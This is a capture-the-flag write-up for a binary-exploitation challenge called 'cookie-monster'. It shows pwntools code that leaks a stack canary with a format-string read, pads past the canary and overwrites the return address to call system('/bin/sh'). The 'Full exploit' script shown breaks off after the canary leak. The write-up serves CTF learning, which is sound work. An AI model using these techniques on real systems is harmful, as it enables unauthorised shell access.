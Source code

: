 ```py
sh = next(b.search(b"/bin/sh"))
```


Running the program until stack smash check and viewing the stack via `telescope` command, we can calculate the offsets we need.

![smash](https://i.imgur.com/N1Re4GP.png)

We can see tht our stack canary is 32 bytes after where our write starts. Additionally, $EBP register which contains the base pointer for our return is set at the value 12 bytes under our stack canary.
![smash-offset](https://i.imgur.com/tpC7W6a.png)

Which means, we need 32 bytes of junk to fill the buffer, then our canary, then 12 more bytes of junk to overwrite our return pointer.

Then we can overwrite it with the address where system call happens, and have the pointer to our `/bin/sh` string so its passed as a parameter to the `system()`

```py
pld = b"A"*32           # pad choice buffer
pld += p32(canary) 
pld += b"B"*12          # pad junk until system parameter
pld += p32(0x804860c)   # system call @ bakery
pld += p32(sh)          # /bin/sh string 

p.sendline(pld)
p.interactive()
```


## Full exploit

```py
from pwn import *

p = process("./cookie-monster")
#p = remote("chals.damctf.xyz", 31312)
b = ELF("./cookie-monster")

sh = next(b.search(b"/bin/sh"))
print(f"sh: {hex(sh)}")

context.log_level = "debug"
libc = b.libc

a = p.recvuntil(":") # Enter your name:
print("[!] recvd: ", a)

p.sendline("%15$p") # $esp-15*8 = canary

resp = p.recvline() # Hello 0xabcdef

## Hello 0xabcdef
## 123456789abcde > canary starts on 9th char
canary_xstr = resp[9:]
print(canary_xstr)

# read as hex integer
canary = int(canary_xstr,16)
print(canary)
log.info("Canary: {}".format(hex(canary)))

p.recvuntil("?")

```